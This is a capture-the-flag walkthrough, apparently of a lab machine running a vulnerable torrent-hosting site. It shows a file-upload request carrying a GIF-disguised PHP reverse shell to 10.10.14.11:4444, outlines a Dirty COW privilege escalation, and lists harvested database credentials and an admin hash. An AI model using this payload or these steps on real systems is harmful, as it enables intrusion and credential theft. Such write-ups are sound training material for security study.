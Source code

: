 User FLAG
-----

1. Nmap scan
2. Enumerate directories
3. Find upload page
4. Create a torrent file
5. Upload valid torrent file (use `torrent-creator`)
6. Modify screenshot to get a reverse shell (add gif headers)

```bash
POST /torrent/upload_file.php?mode=upload&id=ed6106425c8fd7635cf9160f1e7f7eb5ff1366d5 HTTP/1.1
```

```shell
------WebKitFormBoundaryBqdknE02TXAj3VxC
Content-Disposition: form-data; name="file"; filename="reverse.php"
Content-Type: image/gif

GIF87a;<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'");
?>

------WebKitFormBoundaryBqdknE02TXAj3VxC
Content-Disposition: form-data; name="submit"

Submit Screenshot
------WebKitFormBoundaryBqdknE02TXAj3VxC--
```

7. Get user flag

### Notes

Tried to use `exploit.py` in the scripts folder but for some reason I couldn't do a lateral movement once I got the reverse shell.

Thats why I decided to recreate it myself.

## Versions

OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
Apache/2.2.12 (Ubuntu)

### Wappalyzer

- Apache 2.2.12
- Prototype 1.4.0
- Ubuntu
- PHP 5.2.10
- Lightbox

## Info

In the search bar from the right, there is a SQL injection vulnerability.

## Links

- https://kimbatt.github.io/torrent-creator/
- https://book.hacktricks.xyz/pentesting-web/file-upload
- https://github.com/jackybabes/Exploits/blob/main/Torrent_Hoster_2.0_RCE.py

Root FLAG
-----

1. Enumerate the system
2. List versions
3. Found vulnerable kernel
4. Compile dirtycow exploit
5. Run dirtycow exploit
6. Get root flag

## Binaries
/bin/ping6
/bin/ping
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
/usr/lib/pt_chown
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/mtr
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/arping
/usr/bin/gpasswd
/usr/bin/sudoedit
/usr/bin/at
/usr/sbin/pppd
/usr/sbin/uuidd

## Info
/var/www/torrent/config.php:    $dbpass         = $CFG->dbPassword;                                                                                                       
/var/www/torrent/config.php:    $dbuser         = $CFG->dbUserName;                                                                                                       
/var/www/torrent/config.php:  $CFG->dbPassword = "SuperSecret!!";       //db password                                                                                     
/var/www/torrent/config.php:  $CFG->dbUserName = "torrent";    //db username  

/usr/bin/gettext.sh                                                                                                                                                       
/usr/sbin/update-usbids.sh  

Admin d5bfedcee289e5e05b86daad8ee3e2e2  admin@yourdomain.com

## Links

- https://www.geeksforgeeks.org/how-to-find-out-file-types-in-linux/
- https://gitlab.com/exploit-database/exploitdb
- https://github.com/FireFart/dirtycow/blob/master/dirty.c